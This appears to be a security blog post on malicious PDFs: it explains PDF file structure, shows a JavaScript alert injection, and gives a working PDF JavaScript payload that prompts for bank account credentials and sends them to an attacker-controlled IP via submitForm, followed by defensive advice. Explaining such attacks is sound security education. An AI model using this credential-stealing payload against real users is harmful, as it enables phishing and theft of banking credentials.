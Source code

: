 ```yaml
---
title: The Dark Side of PDFs, Understanding and Protecting Against Malicious Exploits
layout: post
post-image: https://github.com/5afagy/5afagy.github.io/assets/115117722/72041fc6-d851-4c23-9a2b-f349d0428336
description: In this blog post, we dive into the often-overlooked dangers of PDF files, revealing how they can be used as a tool for cyber attacks. We explore various techniques that attackers use to exploit PDF vulnerabilities, such as injecting malicious JavaScript code, stealing credentials, and embedding harmful links.
tags:
- how to
- hack
- using
- pdf

---
```


### Table of Contents

1. [Introduction](#introduction)
2. [PDF Structure](#pdf-structure)
3. [PDF Injection: Exploiting Popup Windows](#pdf-injection-exploiting-popup-windows)
   - [The "alert('Khafagy_Was_Here')" of PDF Injection](#the-alertkhafagy_was_here-of-pdf-injection)
   - [Injecting Code into PDFs](#injecting-code-into-pdfs)
   - [Example: Creating an Alert Box](#example-creating-an-alert-box)
4. [Stealing Credentials via PDF](#stealing-credentials-via-pdf)
   - [Scenario: Stealing Bank Account Credentials](#scenario-stealing-bank-account-credentials)
   - [Example JavaScript Code](#example-javascript-code)
5. [Protecting Against PDF Exploits](#protecting-against-pdf-exploits)
6. [Conclusion](#conclusion)
7. [References](#references)

### Introduction

In the realm of cybersecurity, PDFs are often seen as benign documents used for sharing information. However, these seemingly innocuous files can be weaponized to carry out various malicious activities. In this blog post, we will delve into the world of PDF hacking, exploring how attackers exploit PDF files, the techniques they use, and how you can protect yourself from these hidden threats.

### PDF Structure
![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/202e2826-b32f-4ad5-920e-7e60ea8f51f1)

The basic structure of a PDF file includes:

1. **Header**: Specifies the version number of the PDF specification used in the document.

2. **Body**: Contains objects such as text streams, images, and multimedia elements that make up the document's content.

3. **Cross-Reference Table (xref)**: Provides references to all objects in the document, enabling random access to objects.

4. **Trailer**: Specifies how the application should locate the cross-reference table and other special objects.

#### Example: Header

The header of a PDF file specifies the version number:

```
%PDF-1.3
```

#### Example: Cross-Reference Table

The cross-reference table allows random access to objects in the file:

```
xref
0 1
0000000023 65535 f
3 1
0000025324 00000 n
...
```

#### Example: Trailer

The trailer section specifies important keys:

```
trailer
<<
/Size 22
/Root 2 0 R
/Info 1 0 R
>>
startxref
24212
%%EOF
```

### PDF Injection: Exploiting Popup Windows

Popup windows, or dialogs, play a crucial role in Acrobat's interactivity, providing users with important information and collecting input. Acrobat offers various types of built-in popup windows, such as alerts, responses, and file opens, along with functions for creating custom dialogs.

#### The "alert('Khafagy_Was_Here')" of PDF Injection

We'll demonstrate how to create a basic "alert('Khafagy_Was_Here')" PDF injection and then enhance it to inject JavaScript capable of stealing credentials and opening malicious links.

#### Injecting Code into PDFs

Similar to XSS injection in web applications, we can inject malicious code into a JavaScript function call within a PDF. It's essential to ensure correct syntax, as the injection occurs inside an object, such as a JavaScript action, text stream, or annotation URI.

#### Example: Creating an Alert Box

To create a simple alert box in a PDF, we use the `app.alert()` function:

```pdf
<<
/Type /Action
/S /JavaScript
/JS (app.alert('Khafagy_Was_Here');)
>>
```

This code triggers an alert box displaying 'Khafagy_Was_Here' when the PDF is opened.

Injecting JavaScript into PDFs allows attackers to execute various actions, including stealing credentials and opening malicious links. Understanding these vulnerabilities is crucial for securing PDFs against such attacks.

![Screenshot_2024-05-27_20-20-56](https://github.com/5afagy/5afagy.github.io/assets/115117722/ffa9cfb9-67da-40b7-a956-3b3b8a325cd1)

If you find it difficult to inject the script manually you can use [JS2PDFInjector](https://github.com/cornerpirate/JS2PDFInjector) tool.


### Stealing Credentials via PDF

One common method used by attackers to steal sensitive information, such as bank account credentials, is through PDF files. Attackers can create PDFs that prompt users to enter their account information, which is then sent to the attacker's server. Here's how it works:

#### Scenario: Stealing Bank Account Credentials

1. **Prompting for Account Details**: The attacker embeds JavaScript in the PDF to create a dialog box asking the user to enter their bank account number and password.

2. **Collecting User Input**: The JavaScript code uses the `app.response()` function to collect the user's input and store it in variables (`account` and `password`).

3. **Crafting the URL**: The attacker then crafts a URL that includes the collected account and password information, along with their server address.

4. **Submitting the Form**: Finally, the JavaScript uses the `submitForm()` function to send the collected information to the attacker's server as an HTML form.

#### Example JavaScript Code

```pdf
<<
/Type /Action
/S /JavaScript
/JS
(
var account = app.response ({ cQuestion:"Enter your Bank Account Number", cTitle:"Bank Account Details", bPassword:false, cDefault: global.cLastPswd, cLabel:"A/C"}); 
var password = app.response ({ cQuestion:"Enter your Bank Account Password", cTitle:"Bank Account Details", bPassword:true, cDefault: global.cLastPswd, cLabel:"Password"});
var cURL = "http://192.168.1.10:443" + "?" + "account=" + account + "&password=" + password;
this.submitForm({cURL: encodeURI(cURL), cSubmitAs: 'HTML'});
)
>>
```

This malicious code demonstrates how attackers can use PDF files to deceive users into providing their sensitive information. It underscores the importance of being cautious when interacting with PDF files from unknown or untrusted sources.


![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/256fc6a5-67c1-408a-a3e0-7ade63f30873)

![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/1f7a7d73-3f2d-4b47-a6e9-1785323973a1)

![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/1f8e44ee-54b8-4284-8265-d4e1eaf6bb42)

### Protecting Against PDF Exploits

To defend against PDF exploits, it is crucial to take the following measures:

1. **Keep Software Updated**: Ensure that your PDF reader and related software are up-to-date. Updates often include security patches that protect against known vulnerabilities.

2. **Enable Security Features**: Utilize the security features available in your PDF reader. This may include disabling JavaScript execution, restricting file attachments, and enabling sandboxing or protected view modes.

3. **Exercise Caution**: Be wary of opening PDF files from unknown or untrusted sources. Consider scanning files with antivirus software before opening them.

4. **Use Secure Environments**: When possible, open PDF files in a secure, isolated environment, such as a virtual machine or sandbox, to mitigate the impact of any potential exploits.

### Conclusion

PDF files can indeed serve as a vector for cyber attacks, potentially leading to Remote Code Execution (RCE) if not handled carefully. Understanding how attackers exploit PDF vulnerabilities is essential for maintaining a secure digital environment. By adopting the aforementioned protective measures, you can significantly reduce the risk of falling victim to PDF-based exploits and safeguard your organization's sensitive information.

### References

[Let’s write a PDF file](https://speakerdeck.com/ange/lets-write-a-pdf-file?slide=1)
[Portable Data exFiltration: XSS for PDFs](https://speakerdeck.com/ange/lets-write-a-pdf-file?slide=1)
[Learn and Play with PDF Source Code](https://github.com/angea/PDF101)
[PDF - Mess With The Web](https://www.youtube.com/watch?v=WQsDpYnJT6A&ab_channel=OWASPFoundation)
[The PDF invoice that phished you](https://blog.reversinglabs.com/blog/the-pdf-invoice-that-phished-you)
[Malicious PDFs Revealing the Techniques Behind the Attacks](https://forums.hardwarezone.com.sg/threads/din-know-pdf-so-dangerous-one-can-actually-execute-malicious-code.6587298/)
[Analyze Malicious PDFs](https://www.youtube.com/watch?v=AzXf7GV0jew&ab_channel=Intezer)
[PDF_analysis](https://github.com/zbetcheckin/PDF_analysis)


